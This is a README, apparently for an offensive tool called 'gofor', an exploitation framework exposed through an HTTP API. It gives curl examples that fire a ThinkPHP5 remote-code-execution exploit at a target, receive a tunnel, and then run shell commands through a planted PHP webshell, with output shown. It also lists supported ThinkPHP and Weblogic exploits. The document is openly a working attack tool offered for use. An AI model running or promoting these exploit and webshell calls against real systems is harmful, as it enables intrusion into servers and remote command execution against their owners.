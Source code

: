 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

## HTTP API Gateway
```shell
./api-srv
```

## Service Install(Optional)
**Exploit**
```
./srv-exploit
```
**Webshell**
```webshell
./srv-webshell
```

# Example
[*] ThinkPHP5.0.20 RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://172.31.50.248:8080","cve":"VUL-2021-04271"}' http://172.31.50.249:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"VUL-2021-0427","tunnel":"172.31.50.249:37461"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://172.31.50.249:37461/ant.php","language":"php","cmd":"ls"}' http://172.31.50.249:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"ant.php\nfavicon.ico\nindex.php\nproxy.php\nrobots.txt\nrouter.php\nshell.php\nstatic\ntest.php\n"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |
| CVE-2017-10271  | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 |

